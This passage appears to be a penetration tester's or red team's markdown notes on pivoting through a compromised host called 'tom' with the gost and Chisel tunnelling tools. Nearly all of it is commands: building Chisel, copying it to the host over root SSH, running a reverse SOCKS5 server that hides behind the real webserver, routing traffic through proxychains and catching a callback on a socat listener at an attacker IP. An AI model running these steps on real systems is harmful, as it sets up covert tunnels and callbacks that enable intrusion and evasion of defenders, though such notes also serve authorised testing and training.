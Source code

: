 #### Clean up

```
pkill gost
ssh root@tom 'pkill gost'
```

### Chisel

#### Build and push your binaries

```
[[ Chisel~Compiling ]]*
cd tools/chisel
go mod vendor
go build -ldflags "-s -w"
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w"
scp chisel root@tom:
ssh root@tom chmod +x ./chisel
```


#### Socks

```
[[ Chisel~Socks ]]*
ssh root@tom chmod +x ./chisel
ssh root@tom ss -punta
	#Do we already see a webserver here?  We can have chisel pretend to be this webserver with the `--backend` flag
ssh root@tom ./chisel server --backend http://127.0.0.1:8080 --socks5 --reverse --port 80 &
ssh root@tom ss -punta | grep 80
```

```
[[ Chisel~Callback ]]*
curl tom
curl tom:8080
	#The pages look the same right?  That is the --backend flag doing what it does.  If you have root access on the machine, it would be even better to move the legit webserver to only listen on loopback, and then have chisel listen on the public-facing interface.

lsof -i tcp:9050
	#Check to see that we don't have anything listening on port 9050
~/tools/chisel/chisel client tom:80 9050:socks &
lsof -i tcp:9050
	#Check to see that we have chisel listening on 9050

	#Fix up proxychains.conf if we haven't already
sudo sed -i 's:socks4:socks5:' /etc/proxychains4.conf

lsof -i tcp:4444
	#Check to make sure we have a listener ready.  If not, get it started:
	socat -u tcp-listen:4444,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
proxychains4 -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
	#Hopefully we got our callback and see a new entry in /tmp/PROOF
```
